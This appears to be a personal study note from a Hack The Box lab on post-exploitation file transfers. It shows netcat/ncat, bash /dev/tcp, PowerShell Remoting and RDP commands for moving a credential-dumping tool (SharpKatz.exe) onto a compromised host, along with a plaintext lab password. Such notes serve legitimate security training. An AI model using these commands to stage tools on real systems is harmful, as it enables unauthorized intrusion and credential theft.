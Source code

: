 ```yaml
---
Title: HTB\File_Transfers\miscellaneous_methods
tags:
  - os/windows
  - os/linux
source: HTB\File_Transfers\miscellaneous_methods
---
```


# HTB\File_Transfers\miscellaneous_methods

> Źródło: `HTB\File_Transfers\miscellaneous_methods`

## Connecting from our machine
### Netcat
```bash
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

### Ncat
```bash
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```bash
Ovas420@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```


## Connecting from the compromised machine

### netcat
```bash
Ovas420@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```bash
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
### ncat
```bash
Ovas420@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```bash
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


## If the compromised machine does not have ncat or netcat

### netcat

```bash
Ovas420@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### ncat
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
on compromised machine:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```



### PowerShell
By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer,
we will need administrative access, be a member of the Remote Management Users group,
or have explicit permissions for PowerShell Remoting in the session configuration.
Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa.

We have a session as Administrator in DC01, the user has administrative rights on DATABASE01, and PowerShell Remoting is enabled.
Let's use Test-NetConnection to confirm we can connect to WinRM.

```powershell
PS C:\htb> whoami
htb\administrator
```

```powershell
PS C:\htb> hostname
DC01
```

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Create a remote session

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

Copy a file from localhost to the DATABASE01 session

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

Copy database.txt from DATABASE01 session to our localhost

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP
mounting a linux folder using remote desktop (RDP)

```bash
Ovas420@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='<desired linux folder>'
```

mounting a linux folder using xfreerdp

```bash
Ovas420@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]] [[OS-Network]]
